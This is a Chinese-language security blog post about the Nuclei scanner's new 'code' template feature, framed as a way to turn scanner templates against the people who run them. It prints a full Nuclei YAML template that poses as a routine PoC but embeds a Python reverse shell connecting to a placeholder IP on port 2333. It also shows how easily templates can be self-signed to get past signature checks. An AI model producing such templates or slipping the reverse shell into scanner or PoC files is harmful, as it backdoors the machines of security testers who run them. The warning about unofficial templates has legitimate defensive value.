




# 新功能？浅谈nuclei的反制思路

## code新功能？

写poc时，习惯性查官方文档，注意到了一个新的功能：code  
  
链接直达：

https://docs.projectdiscovery.io/templates/protocols/code  
大概翻译下：

> Nuclei 支持在主机操作系统上执行外部代码。该功能允许安全研究人员、五项测试人员和开发人员扩展 Nuclei 的功能，并执行超出常规支持的基于协议的测试范围的复杂操作。

> 利用这一功能，Nuclei 可以与底层操作系统交互，并执行自定义脚本或命令，从而开辟了广泛的可能性。它使用户能够执行系统级配置、文件操作、网络交互等任务。这种控制水平和灵活性使用户能够根据自己的具体要求定制安全测试工作流程。

> 编写代码模板时，使用代码块来表示模板请求的开始。该代码块标志着代码相关指令的开始。

> 要执行代码，需要指定系统环境中已安装或可用的语言解释器列表。这些解释器可以是（但不限于）bash sh py python3、go、ps 等，并按顺序搜索，直到找到合适的解释器为止。这些解释器的标识符应与各自的名称或系统环境识别的标识符相对应。

第二反应，支持bash sh py python3、go、ps 等，这不一键反弹shell？

众所周知，每年在开源社区投毒漏洞利用工具，脚本等事件频发，常见的手段有代码中藏恶意代码，恶意第三方库，idea特性投毒等等，这不都可以和nuclei这一功能结合起来么？

## 简单尝试

对着官方仓库：

https://github.com/projectdiscovery/nuclei/tree/main/integration\_tests/protocols/code

编写一个poc（没加签名了，要尝试的自签名）

```plain
id: sh-test

info:
  name: sh-test
  author: sp4rkw
  severity: info

code:
  - engine:
      - py
      - python3
    source: |
      import socket,subprocess,os
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(("xxx.xxx.xxx.xxx",2333))
      os.dup2(s.fileno(),0)
      os.dup2(s.fileno(),1)
      os.dup2(s.fileno(),2)
      p=subprocess.call(["/bin/sh","-i"])
      print("11111")
    
    matchers:
      - type: word
        words:
          - "hello from input baz"
```

看下效果：

-   机器1  
    
    
-   机器2  
    
    

## 具体分析

首先，毋庸置疑，这个反制思路时可行的。玩法很多，只能说，脚本小子的快乐又没了，用非官方库的nuclei脚本都需要注意一下。至于官方库是否可以投毒，期待有师傅尝试一下？非常可刑

再来说两个注意点，第一个是，脚本需要签名，携带code模块的yaml文件，没有签名运行不起来。虽然没什么用，因为每个人都可以生成签名，但是可以阻止伪造官方仓库poc进行投毒。

> 通过使用私钥-公钥机制，模板签名为模板生态系统增加了一层安全和信任。它有助于确定模板作者的身份，确保各种系统中使用的模板是真实的，没有被恶意篡改。

直达链接：https://docs.projectdiscovery.io/templates/reference/template-signing

批量签名也非常容易

```plain
root@iZmj768nr8:~# nuclei -u scanme.sh -t ./test.yaml -sign
[INF] Generating new key-pair for signing templates
[*] Enter User/Organization Name (exit to abort) : xxx
[*] Enter passphrase (exit to abort): 
[*] Enter same passphrase again: 
[INF] Successfully generated new key-pair for signing templates
root@iZmj768nr80f:~# nuclei -u scanme.sh -t ./test.yaml -sign
[INF] All templates signatures were elaborated success=1 failed=0
```

第二个点，官方在前几天的更新中，添加了`-code`命令

默认禁止有code模块的脚本运行，需要加-code参数

官方也只能做到这里了，毋庸置疑，未来使用code模块编写poc肯定会越来越普遍，-code还是会成为一个默认选项。

至于code模块的代码安全检测？留给未来吧